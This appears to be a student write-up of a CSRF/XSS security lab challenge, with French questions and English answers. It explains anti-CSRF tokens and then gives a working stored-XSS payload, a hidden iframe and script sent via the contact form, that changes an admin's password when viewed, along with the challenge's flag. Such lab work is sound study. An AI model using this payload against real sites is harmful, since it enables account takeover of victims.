# Challenge 2 (Advanced CSRF)

### 1.

> Qu'est-ce qu'un jeton anti-CSRF, comment fonctionne-t-il ?

It is a token that is generated by the webserver each time a user requests a new page, then
the browser should send this token along with requests to the backend where the backend shall verify
that it is the correct one.

The security lies in the fact that since a new token is generated each time the webpage is loaded,
an attacker would not be able to guess it and send it to the server on their own webpage, it is also
important that the CSRF token is tied to the user that generated it, otherwise someone could use their own
anti-CSRF token to send attack someone else.

### 2.

> Comment déterminer si le formulaire est protégé par un jeton anti-CSRF ?

In this case a look through the page HTML reveals that a hidden input is added to the form and contains
the token that should be pushed to the server when the form is submitted:

```html
<input type="hidden" name="_csrf" id="_csrf" value="n29SYXyj-A5VdMJ7sKhRSq4X566N17O08lv8">
```

Another way of finding out is by inspecting the network request that is sent to the backend when submitting the form.

### 3.

> Le site est également vulnérable à une attaque XSS. Quel est le flag du challenge ? Décrivez l'attaque.

`KDADe15sYHnmTgZW`

Using the contact feature, we are able to send a message to the admin that displays the form through an iframe
to change the password. We initially wanted to try by using two fetch requests, one to get the CSRF token
and the other to change the password, but we had token expiry issues.

By sending the following message, the admin will be able to see the form and when the admin goes through
the contact messages, the script will be executed and the admin password will be changed.

```html
<iframe style="display:none;" src="/profile/loic.herman_admin" id="frame" frameborder="0"></iframe>
<script>
    document.querySelector("#frame").onload = function() {
        document.querySelector("#frame").contentDocument.querySelector("input[type=password]").value = 'strongpassword';
        document.querySelector("#frame").contentDocument.querySelector("button[type=submit]").click();
    };
</script>
```

Logging into our admin account, we see that the password has been changed and we can access the admin page to get the flag.

### 4.

Again, proper sanitazation should be used to ensure that the user input is not executed as code.
